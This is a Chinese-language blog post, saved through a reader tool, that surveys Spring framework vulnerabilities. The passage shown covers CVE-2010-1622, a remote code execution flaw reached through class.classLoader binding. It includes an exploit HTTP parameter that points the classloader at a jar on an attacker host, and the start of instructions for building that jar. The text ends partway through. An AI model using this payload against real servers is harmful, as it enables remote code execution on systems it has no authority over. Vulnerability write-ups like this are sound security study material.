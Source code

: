 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [misakikata.github.io](https://misakikata.github.io/2020/04/Spring-%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9E%E9%9B%86%E5%90%88/)

虽说是Spring框架漏洞，但以下包含并不仅Spring Framework，Spring Boot，还有Spring Cloud，Spring Data，Spring Security等。

### [](#CVE-2010-1622-Spring-Framework-class-classLoader类远程代码执行 "CVE-2010-1622 Spring Framework class.classLoader类远程代码执行")CVE-2010-1622 Spring Framework class.classLoader类远程代码执行

影响版本：SpringSource Spring Framework 3.0.0 - 3.0.2、SpringSource Spring Framework 2.5.0 - 2.5.7

Spring框架提供了一种机制，该机制使用客户端提供的数据来更新对象属性。这个机制允许攻击者修改用于加载对象的类加载器的属性（通过’class.classloader’）。这可能导致任意命令执行，例如，攻击者可以修改URL。由类加载器用来指向攻击者控制的位置。

```


1.  `示例：`
2.  `POST /adduser HTTP/1.0`
3.  `...`
4.  `firstName = Tavis&lastName = Ormandy`

6.  `如果Person是表单的支持对象，则firstName和lastName属性将设置为相应的值。为了支持更复杂的类，Spring还支持点表示法，因此user.address.street = Disclosure + Str。将等效于：`

8.  `frmObj.getUser().getAddress().setStreet("Disclosure Str.")` 
9.  `问题是Spring Beans的CachedIntrospectionResults类枚举了可从用户表单提交中设置的属性，使用  java.beans.Introspector.getBeanInfo()而不指定停止类，这意味着' class '属性及其后的所有内容均可用于HTTP请求中的设置。`

11.  `攻击`
12.  `如果攻击者使用以下HTTP参数向表单控制器提交HTTP请求：`
13.  `POST /adduser HTTP/1.0`
14.  `...`
15.  `class.classLoader.URLs[0] = jar:http://attacker/spring-exploit.jar!`

17.  `她将 使用自己的网址覆盖frmObj.getClass().getClassLoader().getURLs() 返回的数组中的第0个元素.`
18.  `它将是哪个类加载器？`
19.  `在Apache Tomcat上的情况下，它指org.apache.catalina.loader.WebappClassLoader`


```

如何构造这个jar，需要包含以下信息：

```


1.  `- META-INF/spring-form.tld - 定义spring表单标签并指定实现为标签文件而不是类`
2.  `- META-INF/tags/中的标签文件，包含有标签定义（任意Java代码）`


```

/META-INF/spring-form.tld文件：
